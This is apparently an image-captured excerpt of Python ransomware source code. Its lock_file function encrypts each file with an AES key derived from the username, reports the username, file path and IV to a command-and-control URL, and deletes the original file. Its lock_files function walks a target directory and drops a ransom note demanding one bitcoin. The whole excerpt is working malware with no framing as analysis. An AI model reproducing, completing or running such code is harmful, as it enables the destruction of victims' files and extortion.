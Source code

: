 ```python
    return res


def lock_file(path):
    username = get_username()
    hsh = hashlib.new('md5')
    hsh.update(username)
    key = hsh.digest()
    cip = AES.new(key, 1)
    iv = get_random_bytes(16)
    params = (('target', username), ('path', path), ('iv', iv))
    requests.get(C2_URL, params=params)
    with open(path, 'rb') as (fi):
        with open(path + '.hacked', 'wb') as (fo):
            block = fi.read(16)
            while 1:
                if block:
                    while 1:
                        if len(block) < 16:
                            block += bytes([0])
                        else:
                            break
                    cipherblock = cip.encrypt(xorbytes(block, iv))
                    iv = cipherblock
                    fo.write(cipherblock)
                    block = fi.read(16)
                else:
                    break
    os.unlink(path)


def lock_files():
    username = get_username()
    print(username)
    if username in TARGETS:
        for directory, _, filenames in os.walk(TARGET_DIR):
            for filename in filenames:
                if filename.endswith('.hacked'):
                    continue
                fullpath = os.path.join(directory, filename)
                print('Encrypting', fullpath)
                lock_file(fullpath)

        with open(os.path.join(TARGET_DIR, 'READ_THIS.txt'), 'wb') as (fo):
            fo.write(b'We have hacked all your files. Buy 1 BTC and contact us at hacked@virus.com\n')


if __name__ == '__main__':
    lock_files()
```
